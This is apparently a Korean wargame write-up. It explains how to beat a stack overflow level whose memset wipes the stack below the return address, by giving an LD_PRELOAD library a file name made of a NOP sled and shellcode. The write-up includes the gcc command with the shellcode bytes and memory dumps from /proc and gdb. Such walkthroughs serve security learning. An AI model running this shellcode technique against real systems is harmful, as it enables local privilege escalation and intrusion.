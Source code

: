 ```c
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

ret 아래로 다 0으로 작살내버린다..!! 아뉘 그럼 어짜누...하다가 결국 LD_PRELOAD라는 힌트를 얻고 풀었다.. ㅠ

LD_PRELOAD로 등록시킨 라이브러리는 libc보다 우선적으로 메모리에 올라가며, libc랑 같은 이름의 함수가 존재할 경우, LD_PRELOAD에 존재하는 함수가 불리게 되는 굉장히 짱짱한 녀석이다. LD_PRELOAD로 등록시킨 라이브러리는 일반 라이브러리처럼 스택이 아닌 따로 메모리 공간을 할당받아 적제된다. 나는 여기서 끝인줄 알았는데, 알고보니 스택에 LD_PRELOAD로 등록시킨 라이브러리의 이름이 들어가더라. 위치는 스택의 끝(가장 낮은 주소) 부근이다.

본 문제의 제한 중에 ret를 반드시 스택의 주소로 덮어쓰워야 하는 조건이 있으니, LD_PRELOAD로 등록시키는 라이브러리의 이름에 쉘코드를 덮어씌우면 될 것 같다.

먼저, 쉘코드를 이름으로 하는 공유 라이브러리 오브젝트를 만들어 준다.

```shell
> vi /tmp/a.c
> cd /tmp
> gcc -shared -o `python -c 'print "\x90"*100 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81" + "\x90"*20'`.so a.c 
```



다음은 LD_PRELOAD로 등록시킨 라이브러리가 올라갔을 때의 메모리 맵이다.

```shell
[skeleton@localhost skeleton]$ cat /proc/1419/maps 
08048000-08049000 r-xp 00000000 08:06 209676     /home/skeleton/golem-cp
08049000-0804a000 rw-p 00000000 08:06 209676     /home/skeleton/golem-cp
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40015000 rw-p 00000000 00:00 0
40015000-40016000 r-xp 00000000 08:08 22090      /tmp/鐞1ɱ2lÿ瀵󬩪ÿÿÿ2i00tii0cjo㐔⚱
                                                                                 ΁.so
40016000-40017000 rw-p 00000000 08:08 22090      /tmp/鐞1ɱ2lÿ瀵󬩪ÿÿÿ2i00tii0cjo㐔⚱
                                                                                 ΁.so
4001a000-40107000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40107000-4010b000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
4010b000-4010f000 rw-p 00000000 00:00 0
bfffe000-c0000000 rwxp fffff000 00:00 0
```

스택(0xbffffe000 ~ 0xc0000000) 공간 중 LD_PRELOAD의 이름이 적히는 공간이다. 메인 함수 프레임보다 훨씬 위에 존재한다.

```shell
0xbffff590:	0x4000380e	0x40014488	0x706d742f	0x9090902f
0xbffff5a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5d0:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb) 
0xbffff5e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff5f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff600:	0x5e11eb90	0x32b1c931	0xff0e6c80	0x01e98001
0xbffff610:	0x05ebf675	0xffffeae8	0x51c132ff	0x74303069
0xbffff620:	0x63306969	0xe48a6f6a	0xe28a5451	0xce0cb19a
0xbffff630:	0x90909081	0x90909090	0x90909090	0x90909090
0xbffff640:	0x90909090	0x6f732e90	0x40002900	0x40013868
0xbffff650:	0x4000220c	0xbffffb75	0x00000000	0x00000000
```
